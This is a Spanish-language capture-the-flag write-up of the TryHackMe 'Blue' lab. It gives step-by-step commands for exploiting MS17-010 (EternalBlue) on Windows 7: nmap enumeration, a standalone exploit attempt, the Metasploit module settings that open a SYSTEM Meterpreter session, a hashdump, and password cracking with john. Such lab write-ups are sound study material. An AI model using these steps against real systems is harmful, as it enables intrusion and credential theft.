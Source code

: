 # 💻 TryHackMe - Blue

> 💣 Explotación de MS17-010 (EternalBlue) en Windows 7 SP1
> 
> 
> Parte del laboratorio ofensivo de preparación OSCP de **igneosec**
> 

---

## 📟 Información general

- **Plataforma**: TryHackMe
- **Nombre de la máquina**: Blue
- **Dirección IP**: 10.10.32.225
- **Sistema operativo**: Windows 7 Professional SP1
- **Dificultad**: Fácil
- **Acceso**: Explotación de SMBv1 (MS17-010)

---

## 🔍 Enumeración

### 🔹 Escaneo de puertos

```bash
nmap -sS -v -n -p- -oN firstscan --min-rate=5000 10.10.32.225 -Pn
```

Puertos detectados:

- 135/tcp → msrpc
- 139/tcp → netbios-ssn
- 445/tcp → microsoft-ds
- 3389/tcp → ms-wbt-server (RDP)
- 49152–49159/tcp → msrpc (puertos dinámicos relacionados con DCOM/RPC)

---

### 🔹 Detección de versiones y servicios

```bash
nmap -sCV -p135,139,445,3389,49152,49153,49154,49158,49159 -oN targetscan 10.10.32.225
```

Resultados clave:

- OS: Windows 7 Professional SP1
- Workgroup: WORKGROUP
- RDP activo (certificado CN=Jon-PC)
- SMB sin message signing
- Nombre de host: JON-PC

---

## 🫠 Enumeración últil

- Confirmada vulnerabilidad MS17-010 (EternalBlue)
- SMB accesible como `guest`
- Usuarios detectados (vía hashdump):
    - Administrator (500)
    - Jon (1000)
    - Guest (501)

---

## 🎯 Explotación

### 🔥 Confirmar vulnerabilidad

```bash
nmap --script smb-vuln-ms17-010 -p445 10.10.32.225
```

Resultado:

```
VULNERABLE: Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
CVE: CVE-2017-0143
```

---

### 💀 Intento sin Metasploit

```bash
python eternalblue_exploit7.py 10.10.32.225 shellcode/sc_all.bin
```

⚠️ El exploit falló debido a problemas de conexión o shellcode incorrecto. El puerto local también estaba en uso (conflicto con el handler).

---

### ✅ Explotación con Metasploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.32.225
set LHOST 10.21.164.206
run
```

> Se obtiene sesión Meterpreter con privilegios NT AUTHORITY\SYSTEM
> 

---

## 📦 Post-Explotación

### 🔑 Hashdump

```bash
meterpreter > hashdump
```

Hashes extraídos:

- Jon: `aad3b4... : ffb43f0de35be4d9917ac0cc8ad57f8d`
- Administrator / Guest: hashes vacíos (`31d6cfe...`)

### ⚡️ Crackeo de contraseña

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Resultado: **alqfna22**

---

## 🏁 Flags encontradas

### ✅ Flag 1 — Acceso inicial

- **Ruta**: `C:\\flag1.txt`
- **Contenido**: `flag{access_the_machine}`

### ✅ Flag 2 — SAM database

- **Ruta**: dump de `hashdump` o `C:\\Windows\\System32\\config\\SAM`
- **Contenido**: `flag{sam_database_elevated_access}`

### ✅ Flag 3 — Documentos sensibles

- **Ruta**: `C:\\Users\\Jon\\Documents\\flag3.txt`
- **Detectada desde**: `.lnk` en `AppData\\Roaming\\Microsoft\\Windows\\Recent`
- **Contenido**: `flag{admin_documents_can_be_valuable}`

---

## 📚 Lecciones aprendidas

- Reforcé el ciclo completo: escaneo → identificación → explotación → post-explotación.
- Uso efectivo de herramientas clave: `nmap`, `john`, `msfvenom`, `meterpreter`.
- Aprendí a extraer información desde `.lnk` y rutas no evidentes.
- Confirmé la importancia de intentar varios caminos cuando un exploit falla.

---

📄 Writeup finalizado.

💡 Parte del repositorio ofensivo de [**igneosec**](https://github.com/igneosec).
